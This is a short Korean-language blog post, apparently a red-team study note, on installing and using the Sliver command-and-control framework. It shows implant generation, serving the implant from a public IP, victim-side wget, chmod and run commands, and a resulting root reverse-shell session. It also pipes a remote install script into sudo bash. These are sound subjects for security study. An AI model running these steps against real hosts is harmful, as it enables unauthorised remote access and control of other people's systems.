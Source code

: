 ```yaml
---
title: Red-Team Framework - (1) Sliver
author: Jeongwon
date: 2025-03-26 12:24:00 +0900
categories: [Career, RedTeam]
tags: [writing]
render_with_liquid: false
---
```

## How to Install Sliver
###### `REF` : [Sliver wiki](https://sliver.sh/docs?name=Getting+Started)

```bash
sudo apt update
curl https://sliver.sh/install|sudo bash

systemctl status sliver # 실행 확인
systemctl start sliver # sliver 실행

sliver
```
![image](assets/img/red-framework-sliver/activate_sliver.png)<br><br><br>

## How to Use Sliver

#### Session Connection
```bash
# [Sliver] 임플란트 생성 및 Session 서버 생성
generate --http [C2서버 공인 IP] -s [임플란트 경로 & 파일명] --os [타겟 운영체제] --arch [타겟 아키텍쳐]
http -d 54.180.117.219 -l 80

# [공격자 Bash] 웹 서버 생성
python3 -m http.server 8443

# [피해자 Bash] http://54.180.117.219:8443/demo.exe 접근 후 실행
wget http://54.180.117.219:8443/test
chmod +x ./test
./test
```
<br>

```bash
sliver > sessions

 ID         Transport   Remote Address     Hostname         Username   Operating System   Health  
========== =========== ================== ================ ========== ================== =========
 48df96c2   http(s)     X.X.X.X:41256     ip-172-31-45-3   root       linux/amd64        [ALIVE] 

sliver > sessions -i 48df96c2

[*] Active session ENTHUSIASTIC_APPEAL (48df96c2)

sliver (ENTHUSIASTIC_APPEAL) > whoami

Logon ID: root

sliver (ENTHUSIASTIC_APPEAL) > ls

/root (10 items, 15.0 MiB)
==========================
-rw-------  root:root  .bash_history   4.6 KiB   Sat Mar 29 16:02:16 +0000 2025
-rw-r--r--  root:root  .bashrc         3.0 KiB   Mon Apr 22 13:04:27 +0000 2024
-rw-------  root:root  .lesshst        20 B      Fri Mar 28 13:50:41 +0000 2025
-rw-------  root:root  .mysql_history  1.8 KiB   Sat Mar 29 09:24:45 +0000 2025
-rw-r--r--  root:root  .profile        161 B     Mon Apr 22 13:04:27 +0000 2024
drwx------  root:root  .ssh            <dir>     Tue Mar 18 13:17:57 +0000 2025
-rw-------  root:root  .viminfo        13.3 KiB  Sat Mar 29 09:15:21 +0000 2025
-rw-r--r--  root:root  .wget-hsts      209 B     Tue Mar 18 13:37:30 +0000 2025
drwx------  root:root  snap            <dir>     Tue Mar 18 13:18:02 +0000 2025
-rwxr-xr-x  root:root  test            15.0 MiB  Sun Mar 30 07:37:33 +0000 2025
```
<br>

Reverse Shell이 잘 연결됨을 확인할 수 있습니다.<br><br>

#### Attack Simulation

```bash
armory install all 
```
기능이 대부분 windows 기반임...
